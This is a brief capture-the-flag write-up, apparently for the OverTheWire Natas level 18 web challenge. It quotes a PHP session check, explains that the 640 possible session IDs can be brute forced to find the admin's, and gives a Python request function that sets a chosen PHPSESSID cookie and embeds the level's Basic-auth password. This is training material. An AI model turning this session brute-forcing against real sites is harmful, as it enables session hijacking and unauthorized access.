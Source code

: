 ```php=
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

```

because of having only 640 cooki id, and admin is one of them -> brute force

```python=
import urllib.request
import http.client
import base64
import http.cookiejar
import sys

def send_request(session_id):
    # Set up a cookie jar
    cookie_jar = http.cookiejar.CookieJar()
    # Add the PHPSESSID cookie to the jar
    cookie = http.cookiejar.Cookie(
        version=0,
        name='PHPSESSID',
        value=str(session_id),
        port=None,
        port_specified=False,
        domain='natas18.natas.labs.overthewire.org',
        domain_specified=True,
        domain_initial_dot=False,
        path='/',
        path_specified=True,
        secure=False,
        expires=None,
        discard=False,
        comment=None,
        comment_url=None,
        rest=None,
        rfc2109=False
    )
    cookie_jar.set_cookie(cookie)

    # Set up basic authentication
    username = 'natas18'
    password = '8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq'
    auth_string = f"{username}:{password}".encode('ascii')
    base64_auth_string = base64.b64encode(auth_string).decode('ascii')
    headers = {'Authorization': f'Basic {base64_auth_string}'}

    # Set up the POST request
    url = 'http://natas18.natas.labs.overthewire.org'
    data = {'username': 'admin', 'password': 'password'}
    data = urllib.parse.urlencode(data).encode('utf-8')

    # Send the request and get the response
    req = urllib.request.Request(url, data, headers=headers)
    cookie_handler = urllib.request.HTTPCookieProcessor(cookie_jar)
    opener = urllib.request.build_opener(cookie_handler)
    response = opener.open(req)
    html = response.read().decode('utf-8')

    return html
```